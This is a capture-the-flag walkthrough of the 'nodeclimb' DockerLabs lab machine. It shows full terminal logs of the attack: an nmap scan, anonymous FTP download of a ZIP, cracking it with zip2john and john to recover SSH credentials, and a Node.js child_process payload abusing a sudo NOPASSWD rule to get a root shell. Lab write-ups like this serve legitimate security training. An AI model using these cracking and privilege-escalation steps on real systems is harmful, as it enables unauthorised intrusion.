

# nodeclimb

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| nodeclimb | El Pingüino de Mario | easy | dockerlabs |

**Summary:** This assessment began with service discovery that exposed anonymous FTP access, which immediately provided a password protected archive named `secretitopicaron.zip`. After extracting the ZIP hash with `zip2john` and running `john` against a common wordlist, the archive password was recovered and revealed valid SSH credentials for user `mario`. Interactive access confirmed a low privilege shell on the target container, where local privilege checks with `sudo -l` exposed a dangerous command allowance for running Node.js as root against a user controlled script path. By writing a JavaScript payload that spawned `sudo -i` with inherited standard streams, execution through the allowed sudo rule produced a full root shell, completing the compromise from initial network enumeration to final host control.

***

## Recon

1. I deployed the target machine and captured the assigned IP address.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[~/dockerlabs/nodeclimb]
└─$ sudo bash auto_deploy.sh nodeclimb.tar
[sudo] password for ouba:

                            ##        .
                      ## ## ##       ==
                   ## ## ## ##      ===
               /""""""""""""""""\___/ ===
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/
                 \    \        __/
                  \____\______/

  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]


Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

2. I performed full TCP discovery and version detection with default scripts.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 21:28 WIB
Nmap scan report for picadilly.lab (172.17.0.2)
Host is up (0.000017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey:
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.27 seconds
```

3. I authenticated to FTP anonymously and downloaded the exposed archive.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ ftp $ip
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:ouba): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||33165|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        104          4096 Jul 05  2024 .
drwxr-xr-x    2 0        104          4096 Jul 05  2024 ..
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
226 Directory send OK.
ftp> get secretitopicaron.zip
local: secretitopicaron.zip remote: secretitopicaron.zip
229 Entering Extended Passive Mode (|||27524|)
150 Opening BINARY mode data connection for secretitopicaron.zip (242 bytes).
100% |********************************************************|   242      221.90 KiB/s    00:00 ETA
226 Transfer complete.
242 bytes received in 00:00 (155.58 KiB/s)
ftp> exit
221 Goodbye.
```

## Initial Access

1. I confirmed the ZIP was encrypted and attempted extraction, which required a password.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ file secretitopicaron.zip
secretitopicaron.zip: Zip archive data, made by v3.0 UNIX, extract using at least v1.0, last modified Jul 05 2024 09:32:06, uncompressed size 40, method=store

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password:
   skipping: password.txt            incorrect password
```

2. I extracted the hash, cracked it with John, then recovered valid SSH credentials from the archive content.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ zip2john secretitopicaron.zip > hash
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)
1g 0:00:00:00 DONE (2026-03-17 21:30) 16.66g/s 136533p/s 136533c/s 136533C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ unzip secretitopicaron.zip
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password:
 extracting: password.txt

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ cat password.txt
mario:laKontraseñAmasmalotaHdelbarrioH
```

3. I used the recovered credentials for SSH access and validated the user context.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/nodeclimb]
└─$ ssh mario@$ip
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:sem9VODefZWbov9cuvKqHP/VaPElAd52iqLT+41h2zQ
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password:
Linux f0761a3c0a57 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul  5 09:35:04 2024 from 172.17.0.1
mario@f0761a3c0a57:~$ id;ls -la
uid=1000(mario) gid=1000(mario) groups=1000(mario),100(users)
total 24
drwx------ 2 mario mario 4096 Jul  5  2024 .
drwxr-xr-x 1 root  root  4096 Jul  5  2024 ..
-rw------- 1 mario mario  330 Jul  5  2024 .bash_history
-rw-r--r-- 1 mario mario  220 Jul  5  2024 .bash_logout
-rw-r--r-- 1 mario mario 3526 Jul  5  2024 .bashrc
-rw------- 1 mario mario    0 Jul  5  2024 .node_repl_history
-rw-r--r-- 1 mario mario  807 Jul  5  2024 .profile
-rw-r--r-- 1 mario mario    0 Jul  5  2024 script.js
```

## PrivEsc

1. I inspected sudo permissions and found a direct root execution path through Node.js with a writable script location.

```bash
mario@f0761a3c0a57:~$ sudo -l
Matching Defaults entries for mario on f0761a3c0a57:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f0761a3c0a57:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

2. I validated the technique using Node.js privilege escalation guidance, then switched to a payload that spawned an interactive root shell.



`require("child_process").spawn("sudo", ["-i"], {stdio: [0, 1, 2]})`

3. I wrote the payload into the allowed script path and executed the sudo rule to obtain root access.

```bash
mario@f0761a3c0a57:~$ echo 'require("child_process").spawn("sudo", ["-i"], {stdio: [0, 1, 2]})' > /ho
me/mario/script.js
mario@f0761a3c0a57:~$ sudo /usr/bin/node /home/mario/script.js
root@f0761a3c0a57:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
f0761a3c0a57
/root
total 28
drwx------ 1 root root 4096 Mar 17 14:35 .
drwxr-xr-x 1 root root 4096 Mar 17 14:26 ..
-rw------- 1 root root    5 Mar 17 14:35 .bash_history
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x 3 root root 4096 Jul  5  2024 .local
-rw------- 1 root root    0 Jul  5  2024 .node_repl_history
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 Jul  5  2024 .ssh
```

***

## Attack Chain Summary
1. **Reconnaissance**: Full port scanning identified FTP and SSH, and FTP script output confirmed anonymous read access to a sensitive ZIP archive.
2. **Vulnerability Discovery**: The exposed archive was encrypted but crackable, allowing credential recovery from `password.txt` after wordlist based password cracking.
3. **Exploitation**: Recovered credentials enabled SSH login as `mario`, establishing stable initial shell access on the target.
4. **Internal Enumeration**: Privilege checks with `sudo -l` revealed a misconfigured NOPASSWD rule that allowed root execution of Node.js against a user controlled script.
5. **Privilege Escalation**: A crafted Node.js payload invoked `sudo -i` via `child_process`, which yielded an interactive root shell and complete system compromise.

